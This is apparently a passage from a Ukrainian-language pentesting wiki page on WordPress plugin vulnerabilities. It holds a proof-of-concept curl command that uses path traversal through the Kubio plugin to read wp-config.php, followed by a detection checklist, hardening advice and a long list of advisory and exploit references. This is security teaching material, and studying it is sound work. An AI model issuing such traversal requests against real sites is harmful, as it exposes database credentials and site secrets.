- Наслідки: розкриття секретів (wp-config.php), потенційний RCE у певних середовищах (отруєння логів, включення PHP)

PoC – читання wp-config.php

```bash
curl -i "https://victim.tld/?__kubio-site-edit-iframe-classic-template=../../../../wp-config.php"
```

Контрольний список виявлення
- Будь-який обробник, що об’єднує шляхи запитів із аргументами include()/require()/read без перевірки обмежень через realpath()
- Шукайте шаблони обходу каталогів (../), що дають змогу вийти за межі призначеного каталогу шаблонів

Посилення захисту
- Дозволяйте лише шаблони зі списку дозволених; отримуйте шлях через realpath() і вимагайте, щоб str_starts_with(realpath(file), realpath(allowed_base)) повертало true
- Нормалізуйте вхідні дані; відхиляйте послідовності обходу каталогів і абсолютні шляхи; використовуйте sanitize_file_name() лише для назв файлів, а не повних шляхів

{{#include ../../banners/hacktricks-training.md}}

## References

- [1] [Вразливість видалення довільних файлів без автентифікації в темі Litho](https://patchstack.com/articles/unauthenticated-arbitrary-file-delete-vulnerability-in-litho-the/)
- [2] [У плагіні WP Job Portal виправлено кілька критичних вразливостей](https://patchstack.com/articles/multiple-critical-vulnerabilities-patched-in-wp-job-portal-plugin/)
- [3] [Рідкісний випадок підвищення привілеїв у плагіні ASE, що зачепив понад 100 тис. сайтів](https://patchstack.com/articles/rare-case-of-privilege-escalation-in-ase-plugin-affecting-100k-sites/)
- [4] [Набір змін ASE 7.6.3 — видалення початкових ролей під час оновлення профілю](https://plugins.trac.wordpress.org/changeset/3211945/admin-site-enhancements/tags/7.6.3/classes/class-view-admin-as-role.php?old=3208295&old_path=admin-site-enhancements%2Ftags%2F7.6.2%2Fclasses%2Fclass-view-admin-as-role.php)
- [5] [Перевірка безпеки хостингу: захист хостингу не зупинив 87,8% експлойтів вразливостей](https://patchstack.com/articles/hosting-security-tested-87-percent-of-vulnerability-exploits-bypassed-hosting-defenses/)
- [6] [WooCommerce Payments ≤ 5.6.1 — підвищення привілеїв без автентифікації через довірений заголовок (база даних Patchstack)](https://patchstack.com/database/wordpress/plugin/woocommerce-payments/vulnerability/wordpress-woocommerce-payments-plugin-5-6-1-unauthenticated-privilege-escalation-vulnerability)
- [7] [Хакери використовують критичну вразливість WooCommerce Payments у WordPress](https://www.bleepingcomputer.com/news/security/hackers-exploiting-critical-wordpress-woocommerce-payments-bug/)
- [8] [Не виправлена вразливість підвищення привілеїв у плагіні Service Finder Bookings](https://patchstack.com/articles/unpatched-privilege-escalation-in-service-finder-bookings-plugin/)
- [9] [Підвищення привілеїв у Service Finder Bookings — запис у базі даних Patchstack](https://patchstack.com/database/wordpress/plugin/sf-booking/vulnerability/wordpress-service-finder-booking-6-0-privilege-escalation-vulnerability)
- [10] [Вразливість зламу автентифікації без автентифікації в темі WordPress Jobmonster](https://patchstack.com/articles/unauthenticated-broken-authentication-vulnerability-in-wordpress-jobmonster-theme/)
- [11] [Найбільш експлуатовані вразливості WordPress за третій квартал 2025 року та як RapidMitigate блокував атаки](https://patchstack.com/articles/q3-2025s-most-exploited-wordpress-vulnerabilities-and-how-patchstacks-rapidmitigate-blocked-them/)
- [12] [OttoKit (SureTriggers) ≤ 1.0.82 — підвищення привілеїв (база даних Patchstack)](https://patchstack.com/database/wordpress/plugin/suretriggers/vulnerability/wordpress-suretriggers-1-0-82-privilege-escalation-vulnerability)
- [13] [FunnelKit Automations ≤ 3.5.3 — встановлення довільного плагіна без автентифікації (база даних Patchstack)](https://patchstack.com/database/wordpress/plugin/wp-marketing-automations/vulnerability/wordpress-recover-woocommerce-cart-abandonment-newsletter-email-marketing-marketing-automation-by-funnelkit-plugin-3-5-3-missing-authorization-to-unauthenticated-arbitrary-plugin-installation-vulnerability)
- [14] [Depicter Slider ≤ 3.6.1 — SQLi без автентифікації через параметр s (база даних Patchstack)](https://patchstack.com/database/wordpress/plugin/depicter/vulnerability/wordpress-depicter-slider-plugin-3-6-1-unauthenticated-sql-injection-via-s-parameter-vulnerability)
- [15] [Kubio AI Page Builder ≤ 2.5.1 — LFI без автентифікації (база даних Patchstack)](https://patchstack.com/database/wordpress/plugin/kubio/vulnerability/wordpress-kubio-ai-page-builder-plugin-2-5-1-unauthenticated-local-file-inclusion-vulnerability)
- [16] [Критична вразливість завантаження довільних файлів у темі Motors, що зачепила понад 20 тис. сайтів](https://patchstack.com/articles/critical-arbitrary-file-upload-vulnerability-in-motors-theme-affecting-20k-sites/)
- [17] [nowak0x01.github.io — статті](https://nowak0x01.github.io/papers/76bc0832a8f682a7e0ed921627f85d1d.html)
- [18] [nowotarski.info — авторизація через WordPress nonce](https://nowotarski.info/wordpress-nonce-authorization)
- [19] [XSS2Shell: ланцюжок від XSS до RCE у WordPress до автентифікації](https://pwn.ai/blog/xss2shell)
- [20] [Випуск WordPress 7.0.3 із виправленнями безпеки](https://wordpress.org/news/2026/08/wordpress-7-0-3-release/)
- [21] [Редагування `wp-config.php` — посібник з розширеного адміністрування WordPress](https://developer.wordpress.org/advanced-administration/wordpress/wp-config/)
- [22] [API XML-RPC WordPress та його серверна реалізація](https://developer.wordpress.org/reference/classes/wp_xmlrpc_server/)
- [23] [Нова функціональність XML-карт сайтів у WordPress 5.5](https://make.wordpress.org/core/2020/07/22/new-xml-sitemaps-functionality-in-wordpress-5-5/)
- [24] [Ролі користувачів і можливості WordPress](https://developer.wordpress.org/apis/security/user-roles-and-capabilities/)
- [25] [`wp_xmlrpc_server::pingback_ping()` і безпечна перевірка віддалених URL](https://developer.wordpress.org/reference/classes/wp_xmlrpc_server/pingback_ping/)
- [26] [Перевірки запитів WordPress у QuickPress](https://github.com/t0gu/quickpress/blob/master/core/requests.go)
- [27] [Nonce у WordPress не забезпечують авторизацію](https://developer.wordpress.org/apis/security/nonces/)
- [28] [Налаштування автоматичних фонових оновлень WordPress](https://developer.wordpress.org/advanced-administration/upgrade/upgrading/)
- [29] [Посилення захисту WordPress](https://developer.wordpress.org/advanced-administration/security/hardening/)
- [30] [Must Use Plugins — посібник з розширеного адміністрування WordPress](https://developer.wordpress.org/advanced-administration/plugins/mu-plugins/)
- [31] [Тисячі зламаних сайтів WordPress, одна операція: викриття StopAndProtect](https://research.checkpoint.com/2026/thousands-of-hacked-wordpress-sites-one-operation-unmasking-stopandprotect/)
- [32] [Click2Shell: ланцюжок від ін’єкції у попередній перегляд теми WordPress до RCE до автентифікації](https://pwn.ai/blog/click2shell)
- [33] [Набір змін ядра WordPress 63664: екранування селектора встановлення теми](https://core.trac.wordpress.org/changeset/63664)
- [34] [Випуск WordPress 7.1.1 з обслуговуванням і виправленнями безпеки](https://wordpress.org/news/2026/09/wordpress-7-1-1-maintenance-and-security-release/)
- [35] [Searchlight Cyber: виявлення wp2shell і ланцюжок експлойта](https://slcyber.io/research-center/exploit-brokers-pay-500000-for-a-wordpress-rce-i-found-one-with-gpt5-6/)
- [36] [Eye Security: посібник з реагування на інцидент wp2shell](https://research.eye.security/wp2shell-defenders-guide/)
- [37] [Рекомендація щодо плутанини маршрутів пакетної обробки WordPress](https://github.com/WordPress/wordpress-develop/security/advisories/GHSA-ff9f-jf42-662q)
- [38] [Рекомендація щодо SQL injection у WP_Query WordPress](https://github.com/WordPress/wordpress-develop/security/advisories/GHSA-fpp7-x2x2-2mjf)
- [39] [Публічний proof of concept wp2shell](https://github.com/Icex0/wp2shell-poc)
